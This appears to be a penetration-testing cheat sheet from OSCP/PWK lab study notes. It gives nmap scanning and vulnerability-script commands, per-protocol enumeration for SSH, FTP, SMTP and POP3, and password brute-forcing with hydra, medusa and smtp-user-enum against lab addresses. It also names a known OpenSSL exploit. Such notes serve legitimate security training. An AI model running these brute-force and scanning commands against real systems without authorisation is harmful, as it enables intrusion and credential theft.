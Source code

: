 ### automate VPN

tar xvzf file.tar.gz  <br />
echo 'OS-#####' > cred.txt <br />
echo ' #######' >> cred.txt <br />
vi auth-user-pass cred.txt <br />
openvpn OS-####-PWK.ovpn 


### Default Nmap Scanning<br />
nmap -sU -sV -n --top-ports 200 192.168.1.30  > /root/PWK-Lab/192.168.1.30/nmap-udp<br />
nmap -sT -sV -A -O -v -p 1-65535 192.168.1.30 > /root/PWK-Lab/192.168.1.30/nmap-tcp<br />

-sS stealth scanning<br />
nmap -vv -Pn -A -sC -sS -T 4 -p- 10.0.0.1<br />
nmap -p- -sS -A 192.168.88.155<br />

Vuln scan : nmap -sS -sV --script=vulscan/vulscan.nse 10.11.1.44<br />
OS detection : nmap -O -v 10.11.1.5<br />


cf. Automated scanning tools<br />
python /root/Recon/Reconnoitre/reconnoitre.py -t 10.11.1.125 -o /root/PWK-Lab/10.11.1.125/ --services
ref : https://github.com/codingo/Reconnoitre



### Scanning per protocols
- SSH(22) <br />
OpenFuck (Apache mod_ssl < 2.8.7 OpenSSL) 764.c <br />
Bruteforce : <br />
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=users.txt --script-args ssh-brute.timeout=4s 192.168.88.152
hydra -l user -P /usr/share/wordlists/rockyou.txt  192.168.88.171 ssh -t 4
ref : <br />
https://github.com/g0tmi1k/debian-ssh 
https://blog.g0tmi1k.com/2010/04/pwnos/


- FTP(21) <br />
default cred ; (anonymous/anonymous) | (ftp/ftp) | (ftpuser|ftpuser)<br />
nmap -sV -Pn -vv -p 21  --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 10.11.1.226<br />
nmap --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 10.0.0.1
check windows OS files : https://www.quora.com/How-can-I-tell-what-version-of-Windows-is-installed-on-a-hard-drive-without-booting-it<br />
Bruteforce : <br />
medusa -h 192.168.88.152 -u user -P /root/SecLists/Passwords/bt4-password.txt -M ftp<br />
./root/PWK-Lab/FTP/ftp-user-enum-1.0/ftp-user-enum.pl -U /root/PWK-Lab/fuzzdb/bruteforce/names/simple-users.txt -t 10.11.1.116"<br />


- SMTP(25)<br />
nmap --script smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.11.1.227<br />
nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.0.0.1<br />
nmap --script smtp-enum-users.nse 10.11.1.229<br />
smtp-user-enum -M VRFY -U users.txt -t 10.11.1.229<br />
smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 192.168.88.171<br />
smtp-user-enum -M VRFY -U  /usr/share/seclists/Usernames/Names/names.txt -t 10.11.1.229<br />
telnet INSERTIPADDRESS 25<br />
nc -nvv INSERTIPADDRESS 25<br />
msf module : auxiliary/scanner/smtp/smtp_enum<br />

- POP3(110)<br />
Bruteforce : hydra -L usr.txt -P /usr/share/wordlists/fasttrack.txt -t20 192.168.88.183 -s55007 -I pop3<br />
POP3 command<br />
USER boris<br />
PASS *****<br />
LIST <br />
RETR 1 <br />
